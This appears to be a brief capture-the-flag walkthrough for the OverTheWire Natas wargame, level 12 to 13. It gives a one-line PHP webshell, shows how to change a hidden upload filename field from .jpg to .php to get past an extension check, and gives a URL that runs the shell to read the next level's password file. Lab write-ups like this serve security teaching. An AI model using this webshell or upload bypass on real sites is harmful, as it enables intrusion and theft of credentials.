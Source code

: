 # Level 12 -> Level 13  

upload this php webshell  

```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

change this portion in source code before uploading  

```html
<input type="hidden" name="filename" value="3oknjkmx27.jpg">
```

to

```html
<input type="hidden" name="filename" value="3oknjkmx27.php">
```

now execute the webshell  

```
http://natas12.natas.labs.overthewire.org/upload/k5uwtdrxxt.php?e=cat /etc/natas_webpass/natas13
```
